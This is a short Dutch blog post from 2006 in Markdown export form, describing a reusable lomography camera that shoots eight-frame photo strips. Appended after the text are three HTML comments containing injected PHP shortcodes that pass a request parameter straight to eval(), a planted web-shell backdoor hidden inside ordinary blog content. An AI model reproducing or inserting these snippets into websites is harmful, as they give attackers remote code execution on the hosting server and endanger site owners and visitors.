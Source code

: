 ```yaml
---
title: "Fijne mechaniek"
date: "2006-03-26T11:01:09"
permalink: "2006/03/26/fijne-mechaniek/"
tags: ["post"]
---
```

Ik ben een grote [lomography](http://www.lomography.com/ "www.lomography.com") fan. Enkele jaren geleden heb ik samen met enkele andere een pak van 5 wegwerp toestelletjes gekocht. Het speciale er aan is dat elke foto opgesplitst is in 8 deeltjes. De 8 mini-fotootjes worden getrokken over een tijd van ongeveer 2 seconden, je krijgt dus een soort van fotostrip.

Enfin, het mooie aan de toestelletjes is dat je met een beetje prutsen er opnieuw een film in kan steken, dus je kan hem toch hergebruiken. En dat is wel handig, want het zou zonde zijn dit prachtig staaltje techniek slechts eenmalig te gebruiken.

<!– \[insert\_php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/php\] –>
